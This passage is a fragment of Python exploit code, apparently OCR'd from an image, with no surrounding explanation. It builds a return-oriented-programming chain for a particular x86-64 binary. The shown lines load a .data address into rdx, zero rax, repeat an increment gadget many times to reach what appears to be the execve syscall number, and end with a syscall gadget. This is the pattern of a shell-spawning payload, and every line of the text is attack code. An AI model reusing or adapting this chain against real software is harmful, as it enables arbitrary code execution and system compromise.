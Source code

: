 ```python
p += pack('<Q', 0x000000000043dbb5)  # pop rdx ; ret
p += pack('<Q', 0x00000000004a60e8)  # @ .data + 8
p += pack('<Q', 0x0000000000439070)  # xor rax, rax ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0)  # add rax, 1 ; ret
p += pack('<Q', 0x0000000000402bf4)  # syscall
```